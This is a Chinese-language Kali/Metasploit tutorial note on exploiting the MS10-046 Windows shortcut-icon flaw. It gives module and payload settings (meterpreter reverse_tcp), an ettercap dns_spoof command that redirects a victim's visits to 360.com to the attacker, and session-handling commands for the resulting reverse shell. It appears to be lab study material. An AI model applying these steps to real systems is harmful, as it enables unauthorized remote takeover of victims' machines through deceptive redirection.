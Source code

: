 # Metasploit ms10_046_shortcut_icon_dllloader 利用

> 使用该模块需要将apache关闭，否则会出现端口冲突。有一定几率会不成功

1. `search shortcut`获取可利用的漏洞

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_10-58-40.png"/>

   这里我们使用`exploit/windows/browser/ms10_046_shortcut_icon_dllloader`

2. 设置参数，使用默认`windows/meterpreter/reverse_tcp`做为攻击载荷

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_11-00-33.png"/>

3. 利用漏洞，根据提示。我们需要让目标机访问192.168.80.200:80

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_11-03-08.png"/>

4. 为了目标机更容易上当，我们可以使用ettercap的dns_spoof插件，具体参考：https://www.cnblogs.com/kikochz/p/13688535.html。`ettercap -Tq -P dns_spoof /// ///`默认使用第一个接口。当目标机访问我们预先设置好的360.com时就会跳转到攻击机，并反弹shell

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_11-11-42.png"/>

5. 我们其实可以发现该漏洞时鉴于windows的共享资源漏洞

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_11-13-20.png"/>

6. 我们可以通过`sessions `查看反弹会的shell会话，通过`sessions -i num`来重新连接

<img src="..\..\..\imgs\_Kali\metasploit\Snipaste_2020-09-19_11-19-28.png"/>
